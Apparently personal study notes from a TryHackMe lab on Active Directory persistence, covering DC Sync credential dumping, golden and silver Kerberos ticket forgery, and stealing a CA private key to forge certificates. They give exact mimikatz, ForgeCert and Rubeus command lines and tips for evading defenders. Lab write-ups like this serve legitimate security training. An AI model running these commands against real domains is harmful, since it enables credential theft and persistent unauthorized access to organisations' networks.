

- The process of attacking AD is cyclic.
- This ensures that if one of our positions gets burnt by the blue team, we have several fallbacks.
- ## *Persistence Through Credentials*
	- #### *DC Sync*
		- In large organizations, the domains have multiple DCs to not delay any authentication services.
		- How is it possible for you to authenticate using the same credentials in two different offices?
			- Domain replication is the answer, each DC runs a process the Knowledge Consistency Checker (KCC).
			- The KCC generates a replication topology for the AD forest and automatically connects to other domain controllers through Remote Procedure Calls (RPC) to synchronize information.
			- This includes updated information such as the user's new password and new objects such as when a new user is created.
			- This is why you usually have to wait a couple of minutes before you authenticate after you have changed your password since the DC where the password change occurred could perhaps not be the same one as the one where you are authenticating to.
			- The process of replication is called DC Synchronization.
			- It is not just the DCs that can initiate replication. Accounts such as those belonging to the Domain Admins groups can also do it for legitimate purposes such as creating a new domain controller.
		- A popular attack to perform is a DC Sync attack. If we have access to an account that has domain replication permissions, we can stage a DC Sync attack to harvest credentials from a DC.
		- Before starting our DC Sync attack, let's first discuss what credentials we could potentially hunt for.
		- While we should always look to dump privileged credentials like Domain Admin group members, they will be rotated by blue team if we get discovered.
		- The goal then is to persist with near-privileged credentials.
			- **Credentials that have local administrator rights on several machines.**
			- **Service accounts that have delegation permissions.**
			- **Accounts used for privileged AD services.**
	- #### *DCSync All*
		- Using mimikatz to harvest credentials
			- Start mimikatz `.\mimikatz.exe`.
			- Perform a DC Sync for a single account, our own `lsadump::dscync /domain:<domain> /user:<username>`.
			- To perform a DC Sync on all users, we have to enable logging `log <username>_dcdump.txt`.
			- Now dump all using `lsadump::dcsync /domain:<domain> /all`.
- ## *Persistence Through Tickets*
	- As we often want to persist through service accounts with delegation permissions to forge silver and golden tickets.
	- Kerberos authentication process 
	- #### *Golden Tickets*
		- They are forged TGT tickets, so we can skip steps 1 and 2.
		- To forge a golden ticket, we need the `krbtgt` account's password hash so that we can sign a TGT for any user account we want.
		- Some notes about Golden Tickets
			- By injecting at this stage of the Kerberos process, we don't need the password hash of the account we want to impersonate since we bypass that step. The TGT is only used to prove that the KDC on a DC signed it. Since it was signed by the KRBTGT hash, this verification passes and the TGT is declared valid no matter its contents.
			- The KDC will only validate the user account specified in the TGT if it is older than 20 minutes. This means we can put a disabled, deleted, or non-existent account in the TGT, and it will be valid as long as we ensure the timestamp is not older than 20 minutes.
			- Since the policies and rules for tickets are set in the TGT itself, we could overwrite the values pushed by the KDC, such as, for example, that tickets should only be valid for 10 years granting us persistence.
			- By default, the KRBTGT account's password never changes, meaning once we have it, unless it is manually rotated, we have persistent access by generating TGTs forever.
			- The blue team would have to rotate the KRBTGT account's password twice, since the current and previous passwords are kept valid for the account. This is to ensure that accidental rotation of the password does not impact services.
			- Rotating the KRBTGT account's password is an incredibly painful process for the blue team since it will cause a significant amount of services in the environment to stop working. They think they have a valid TGT, sometimes for the next couple of hours, but that TGT is no longer valid. Not all services are smart enough to realize the TGT is no longer valid (since the timestamp is still valid) and thus won't auto-request a new TGT.
			- Golden tickets would even allow you to bypass smart card authentication, since the smart card is verified by the DC before it creates the TGT.
			- We can generate a golden ticket on any machine, even one that is not domain-joined (such as our own attack machine), making it harder for the blue team to detect.
		- Data required are
			- KRBTGT account's password hash.
			- Domain name.
			- Domain SID.
			- User ID of the user we want to impersonate.
		- Get the the required data from `lsadump::dcsync /domain:<domain> /all` and the Domain SID using PowerShell `Get-ADDomain`.
		- Then using mimikatz, run `kerberos::golden /admin:<any-random-user> /domain:<domain> /id:<user-RID> /sid:<domain-sid> /krbtgt:<krbtgt-hash> /endin:600 /renewmax:10080 /ptt`
			- `/admin` the username we want to impersonate, doesn't have to be valid.
			- `/domain` the FQDN of the domain.
			- `/id` the user RID, Administrator RID by default is 500.
			- `/sid` domain SID.
			- `/krbtgt` the NTLM hash of KRBTGT.
			- `/endin` the ticket lifetime, by default, mimikatz generate a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 mins).
			- `/renewmax` the maximum ticket lifetime with renewal. By default, Kerberos policy of AD is 7 days (10080 mins).
			- `/ptt` this tells mimikatz to inject the ticket directly into the session.
		- Verify that the golden ticket is working by running `dir` command against the DC `dir \\thmdc.za.tryhackme.loc\c$\`.
	- #### *Silver Tickets*
		- They are forged TGS tickets, so we can skip steps 1-4.
		- Some notes about Silver Tickets
			- The generated TGS is signed by the machine account of the host we are targeting.
			- The main difference between Golden and Silver Tickets is the number of privileges we acquire. If we have the KRBTGT account's password hash, we can get access to everything.
			- With a Silver Ticket, since we only have access to the password hash of the machine account of the server we are attacking, we can only impersonate users on that host itself. The Silver Ticket's scope is limited to whatever service is targeted on the specific server.
			- Since the TGS is forged, there is no associated TGT, meaning the DC was never contacted. This makes the attack incredibly dangerous since the only available logs would be on the targeted server. So while the scope is more limited, it is significantly harder for the blue team to detect.
			- Since permissions are determined through SIDs, we can again create a non-existing user for our silver ticket, as long as we ensure the ticket has the relevant SIDs that would place the user in the host's local administrators group.
			- The machine account's password is usually rotated every 30 days, which would not be good for persistence. However, we could leverage the access our TGS provides to gain access to the host's registry and alter the parameter that is responsible for the password rotation of the machine account.
			- While only having access to a single host might seem like a significant downgrade, machine accounts can be used as normal AD accounts, allowing you not only administrative access to the host but also the means to continue enumerating and exploiting AD as you would with an AD user account.
		- Generate a ticker using `kerberos::golden /admin:<any-random-user> /domain:<domain> /id:500 /sid:<domain-sid> /target:<hostname-server-target> /rc4:<ntlm-hash> /service:<service> /ptt`
			- `/target` the hostname of the target server.
			- `service` the service we are requesting in our TGS, CIFS is a safe bet, since it allows file access.
		- Verify that the ticket is working by using `dir` against the target server `dir \\thmserver1.za.tryhackme.loc\c$`.
- # NOTE: TAKE CAUTION WHEN USING THE FOLLOWING TECHNIQUES AS THEY ARE INVASIVE AND HARD TO REMOVE.
- ## *Persistence Through Certificates*
	- Use certificates for authentication which would give us persistence even if the blue team rotated the passwords.
	- This would allow us to request TGTs with the certificate, the only way we can be locked out is by revoking our certificate or it expires.
	- We can even go after the CA itself. Depending on our access, we could simply steal the private key of the root CA's certificate to generate our own certificates whenever we feel like it and since these certificates were never issued by the CA, the blue team has no ability to revoke them. This would be even worse for the blue team since it would mean a rotation of the CA, meaning all issued certificates would have to be revoked by the blue team to kick us out.
	- #### *Extracting the Private Key*
		- The private key of the CA is stored on the CA server itself. 
		- If the private key is not protected through hardware-based protection methods such as an Hardware Security Module (HSM), which is often the case for organisations that just use Active Directory Certificate Services (AD CS) for internal purposes, it is protected by the machine Data Protection API (DPAPI).
		- We can use tools such as Mimikatz and SharpDPAPI to extract the CA certificate and thus the private key from the CA.
		- **Steps**
			- After gaining access to the DC.
			- Transfer and start mimikatz `.\mimikatz.exe`
			- View certificates using `crypto::certificates /systemstore:local_machine`.
			- Some certificates will not allow it being exported, mimikatz allows us to patch memory to make these keys exportable
				- `privilege::debug`
				- `crypto::capi`
				- `crypto::cng`
			- Export the certificates using `crypto::certificates /systemstore:local_machine /export`
			- In order to export the private key, a password must be set to encrypt the certificate, by default mimikatz uses `mimikatz` as password.
			- Copying the certificate to the attacking machine using `scp Administrator@thmdc.za.tryhackme.loc:C:/Users/Administrator/<cert-name> ./`.
			- Generate our own certificate using `ForgeCert.exe --CaCertPath <certificate> --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123`
				- `CaCertPath` the path to the exported certificate.
				- `CaCertPassword` the password used to encrypt the certificate.
				- `Subject` the subject or common name of the certificate.
				- `SubjectAltName` this is the User Principle Name (UPN) of the account we want to impersonate with this certificate. Has to be a legitimate user.
				- `NewCertPath` the path to where ForgeCert will store the new certificate.
				- `NewCertPassword` the new password that the certificate will be encrypted with.
			- Use `Rubeus` to request a TGT using the certificate to verify that the certificate is trusted `Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path-to-cert> /password:<cert-pass-file> /outfile:<name-of-file-to-write-tgt-to> /domain:za.tryhackme.loc /dc:<dc-ip>`
				- `/user` the user that we will impersonate and has to match the UPN for the certificate we generated.
				- `/enctype` the certificate encryption type, important for evasion.
				- `/certificate` path to generated certificate.
				- `/password` password of the cert file.
				- `/outfile` the file where our TGT will be stored.
				- `/domain` the FQDN of the domain
				- `/dc` DC IP, it is best to select a DC that has a CA service running.
				- 